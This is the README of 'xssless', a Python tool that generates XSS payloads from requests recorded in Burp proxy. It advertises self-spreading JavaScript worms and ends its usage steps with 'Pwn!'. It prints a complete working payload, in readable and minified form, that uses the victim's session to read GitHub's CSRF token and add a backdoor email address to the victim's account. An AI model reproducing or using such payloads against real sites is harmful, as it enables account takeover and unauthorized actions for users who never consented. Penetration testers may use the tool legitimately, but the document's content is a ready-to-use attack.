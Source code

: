 xssless
======

An automated XSS payload generator written in python.

Usage
-----

1. Record request(s) with [Burp proxy](http://portswigger.net/burp/proxy.html)
2. Select request(s) you want to generate, then right click and select "Save items"
3. Use xssless to generate your payload: `./xssless.py burp_export_file`
4. Pwn!

Features
--------
* Automated XSS payload generation from imported Burp proxy requests
* Payloads are 100% asynchronous and won't freeze the user's browser
* CSRF tokens can be easily extracted and set via the -p option
* Crazy JavaScript worms with no hassle!

Installation
------------

If you don't have BeautifulSoup installed:

`pip install beautifulsoup4`

Download the latest xssless:

`git clone https://github.com/mandatoryprogrammer/xssless`

Run the script:

`./xssless.py -h`

Example Payload
---------------

This is an example XSS payload output (unminimized) for my github that would add an extra email to my account (backdoor@yopmail.com)

```html
<script type="text/javascript">
    var funcNum = 0;
    function doRequest(url, method, body)
    {
        var http = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
        http.withCredentials = true;
        http.onreadystatechange = function() {
            if (this.readyState == 4) {
                var response = http.responseText; 
                var d = document.implementation.createHTMLDocument("");
                d.documentElement.innerHTML = response;
                requestDoc = d;
                funcNum++;
                try {
                    window['r' + funcNum](requestDoc);
                } catch (error) {}
            }    
        };
        if(method == "POST")
        {
            http.open('POST', url, true);
            http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            http.setRequestHeader('Content-length', body.length);
            http.setRequestHeader('Connection', 'close');
            http.send(body);
        } else if (method == "GET") {
            http.open('GET', url, true); 
            http.send();
        } else if (method == "HEAD") {
            http.open('HEAD', url, true); 
            http.send();
        }
    }
    r0();
    function r0(requestDoc){
        doRequest('https://github.com/settings/profile', 'GET', '');
    }

    function r1(requestDoc){
        doRequest('https://github.com/users/mandatoryprogrammer/emails', 'POST', 'authenticity_token=' + encodeURIComponent(requestDoc.getElementsByName('authenticity_token')[0].value) + '&user_email%5Bemail%5D=backdoor%40yopmail.com');
    }

</script>
```

The compressed payload
```html
<script type="text/javascript">
function doRequest(e,t,n){var r=window.XMLHttpRequest?new XMLHttpRequest:new ActiveXObject("Microsoft.XMLHTTP");r.withCredentials=true;r.onreadystatechange=function(){if(this.readyState==4){var e=r.responseText;var t=document.implementation.createHTMLDocument("");t.documentElement.innerHTML=e;requestDoc=t;funcNum++;try{window["r"+funcNum](requestDoc)}catch(n){}}};if(t=="POST"){r.open("POST",e,true);r.setRequestHeader("Content-type","application/x-www-form-urlencoded");r.setRequestHeader("Content-length",n.length);r.setRequestHeader("Connection","close");r.send(n)}else if(t=="GET"){r.open("GET",e,true);r.send()}else if(t=="HEAD"){r.open("HEAD",e,true);r.send()}}function r0(e){doRequest("https://github.com/settings/profile","GET","")}function r1(e){doRequest("https://github.com/users/mandatoryprogrammer/emails","POST","authenticity_token="+encodeURIComponent(e.getElementsByName("authenticity_token")[0].value)+"&user_email%5Bemail%5D=backdoor%40yopmail.com")}var funcNum=0;r0()
</script>
```

Contributing
------------

Want to contribute some code to this project? Great! I'm not the best at Python or Javascript so I appreciate any additions to the project. Contributions can also be in the form of new feature ideas, if you've got one let me know!

The Joke
--------

Just to point out, the joke in the name here is really to xss-LESS, ie. stop putting so much time into building payloads! Not to be without XSS which would be a sad state indeed (well, for the pentester anyways!).

